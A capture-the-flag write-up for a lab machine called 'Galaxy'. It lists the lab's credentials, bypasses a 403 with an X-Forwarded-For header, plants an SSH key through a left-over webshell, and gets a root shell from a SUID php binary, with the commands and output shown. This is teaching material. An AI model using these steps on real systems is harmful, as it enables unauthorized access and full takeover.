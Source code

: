 # [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing 403 restriction we can see devs left webshell which uses custom web user after user shell enumeration leads us to php which has suid bit permission
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | 1203a |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is web shell in /developers directory
4) php has suid bit permission

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and /developers directory gives us 403 forbidden error<br>

![image](https://github.com/user-attachments/assets/27c54f85-4952-4b13-8040-9c07dea34883)
<br>
Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/3374c55f-ae55-45b0-9f02-3b87781a9c92)



# Foothold

We use same technique to see content of README.md file:<br>
![image](https://github.com/user-attachments/assets/b3785047-9a54-42f9-99ba-cc7f56164d91)
<br>
Not much usefull let's take a look to web.php file<br>
![image](https://github.com/user-attachments/assets/1ce77e27-b006-49be-b5fa-1f321d4f40e7)

<br>
It looks like developers left webshell in developers directory, it is because web site hasn't been finished fully yet<br>
We can copy our own id_rsa.pub (publick key) to web users authorized_keys to login via ssh without a password

```
echo "public key" > /home/web/.ssh/authorized_keys
```


<br>
Let's login using our own ssh with id_rsa for more comfortable and stable shell. If you don't have id_rsa keys create using 

<br>`ssh-keygen -t rsa`<br>

````
┌──(master㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa web@192.168.2.106
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan 24 02:47:24 AM UTC 2025

  System load:  0.0               Processes:               105
  Usage of /:   33.7% of 7.79GB   Users logged in:         0
  Memory usage: 9%                IPv4 address for enp0s3: 192.168.2.106
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Jan 24 02:19:46 2025 from 192.168.2.107
$ 
````
user flag can be found in web home directory.<br>

# Privilege Escalation
After a long enumeration files with suid bit permission worth to pay attention:

````
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x+ 1 root root 5779920 Dec  2 12:36 /usr/bin/php8.3
-rwsr-xr-x 1 root root 72792 May 30  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 277936 Apr  8  2024 /usr/bin/sudo
-rwsr-xr-x+ 1 root root 137776 Apr  8  2024 /usr/bin/diff
-rwsr-xr-x 1 root root 51584 Aug  9 02:33 /usr/bin/mount
-rwsr-xr-x 1 root root 55680 Aug  9 02:33 /usr/bin/su
-rwsr-xr-x 1 root root 40664 May 30  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76248 May 30  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 64152 May 30  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 39296 Aug  9 02:33 /usr/bin/umount
-rwsr-xr-x 1 root root 44760 May 30  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39296 Apr  8  2024 /usr/bin/fusermount3
-rwsr-xr-- 1 root messagebus 34960 Aug  9 02:33 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18736 Apr  3  2024 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 163112 Oct 11 08:05 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 342632 Aug  9 02:33 /usr/lib/openssh/ssh-keysign
````
Because php has suid bit permission if we browse to gtfobins we can  escalate privilege:
<br>
![image](https://github.com/user-attachments/assets/ce6fe95d-27bc-4493-9627-fdedd8aeeeca)

````
$ /usr/bin/php8.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=1004(web) gid=1004(web) euid=0(root) groups=1004(web)
# whoami
root
#
````
Now we have root shell, root flag can be found in /root directory
